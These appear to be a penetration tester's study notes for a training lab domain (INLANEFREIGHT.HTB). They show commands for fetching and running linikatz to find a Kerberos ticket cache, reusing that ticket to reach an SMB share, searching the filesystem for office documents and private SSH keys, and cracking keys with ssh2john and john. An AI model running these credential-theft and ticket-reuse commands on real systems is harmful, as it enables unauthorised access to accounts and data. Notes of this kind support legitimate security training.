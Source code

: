 
```shell-session
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh

/opt/linikatz.sh
```

Using Linikatz we have found the path to the linux01 ccache file:
```shell-session
Ticket cache: FILE:/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
```

we can now export it:
```
export KRB5CCNAME=/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
```

and connect to the linux01 share:
```
smbclient //dc01/linux01 -no-pass -k
```

---

# <mark class="hltr-pink">Cracking Files</mark>

## <mark class="hltr-cyan">Protected Files</mark>

### <mark class="hltr-orange">Hunting for Files</mark>

```shell-session
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

### <mark class="hltr-orange">Hunting for SSH Keys</mark>

```shell-session
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

Most SSH keys we will find nowadays are encrypted. We can recognize this by the header of the SSH key because this shows the encryption method in use.

![[Pasted image 20240921161415.png]]

### <mark class="hltr-orange">Cracking with john</mark>

```
locate *2john*
```

example:
```
ssh2john ssh.private > ssh.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```



[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>